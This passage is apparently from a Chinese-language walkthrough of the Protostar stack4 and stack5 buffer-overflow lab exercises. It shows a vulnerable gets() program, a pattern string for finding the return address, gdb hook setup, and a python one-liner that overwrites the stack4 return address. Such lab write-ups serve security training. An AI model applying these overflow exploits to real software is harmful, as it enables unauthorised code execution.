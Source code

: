 **buffer的位置**在`esp+0x10`处，`$ebp - $esp = 88`，我们需要`填充88-0x10=72个字节`，然后**下面四个字节是ebp**，在**下面四个字节是返回地址**。

### EXP

```text
 python -c "print('A'*76 + '\xf4\x83\x04\x08')" | ./stack4
```

## Stack5

### About

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

**Hints**

* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc \(int3\) to stop the program executing and return to the debugger
* remove the int3s once your shellcode is done.

### Source code

{% code title="stack3.c" %}
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
{% endcode %}

首先要找的返回地址的位置，这里我们通过gdb去找。首先将一段有特征的字符串输入到文件里面，方便我们找返回地址的位置。

```text
echo AAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ > /tmp/exp
```

首先通过gdb**定义一个hook函数**，这个函数是一个特殊的函数，在**遇到断点停下来时会自动调用**，定一个了两个操作，第一个查看eip的指令，第二个打印栈顶内容。

```c
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
```

